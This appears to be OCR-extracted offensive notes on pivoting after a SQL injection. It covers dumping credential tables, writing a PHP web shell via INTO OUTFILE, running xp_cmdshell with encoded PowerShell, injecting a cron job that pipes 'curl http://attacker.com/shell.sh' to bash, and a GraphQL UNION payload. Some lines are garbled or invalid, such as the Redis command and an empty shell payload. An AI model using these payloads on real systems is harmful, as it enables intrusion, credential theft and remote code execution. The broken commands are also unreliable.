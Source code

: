     -steal more credentials(RDS, Redis, SMTP)
    -write to disk (RCE)
    -Access other internal services
    -poison internal cache or jobs
credential extraction-pivot Look for: 
```sql
SELECT * FROM users; 
SELECT * FROM environment; 
SELECT * FROM credentials;
```
Find SMTP/Redis/AWS keys: 

`aws_access_key=AKIA.... smtp://username:password@mail.internal`

if creds found try logging into:
    -Internal admin panels
    -S3 buckets
    -SSH
    -FTP (if creds found)
    -Database consoles

## RCE via SQLi (File Write/ Function Abuse)

If you can write files: 

MySQL (Linux/PHP):

`UNION SELECT "" INTO OUTFILE '/var/www/html/shell.php' then: GET /shell.php?cmd=whoami`

MSSQL:

`exec xp_cmdshell 'powershell -enc ...'`

## Access other internal systems(service pivot)

Use SQLi to: 

Dump internal subdomains: 

`SELECT host FROM logs WHERE referrer LIKE '%internal%'`

Pivot to Redis if Redis is reachable and unauthenticated, poison it:
```sql
SET CONFIG rewrite-command 'FLUSHALL' 'GETFLAG' Poison scheduled jobs or cron via DB injections: INSERT INTO cron (cmd) VALUES ('curl http://attacker.com/shell.sh | bash');
```

## GraphQL/API Endpoint Pivot Found an internal API?

Abuse SQLi in it: 
```sql
query { user(id: "1' UNION SELECT password FROM users--") { id } }
```

## Steal session/Auth Tokens

